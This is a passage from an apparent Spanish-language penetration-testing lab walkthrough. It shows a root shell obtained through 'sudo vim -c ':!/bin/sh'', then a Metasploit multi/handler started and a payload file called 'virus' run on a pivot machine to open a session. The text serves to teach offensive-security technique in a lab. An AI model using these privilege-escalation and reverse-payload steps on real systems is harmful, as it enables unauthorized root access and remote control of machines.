     ![image.png](./imagenes/image%2075.png)
    
- Probamos el primer comando que nos muestra para ver si podemos conseguir una shell como root
    
    `sudo vim -c ':!/bin/sh'`
    
    `whoami`
    
    ![image.png](./imagenes/image%2076.png)
    
- Volvemos a Metasploit y ejecutamos el **multi/handler** de nuevo**.**
    
    `run`
    
    ![image.png](./imagenes/image%2077.png)
    

- Y en el Terminal de la maquina intermedia volvemos a lanzar el archivo virus.
    
    `./virus`
    
    ![image.png](./imagenes/image%2078.png)
    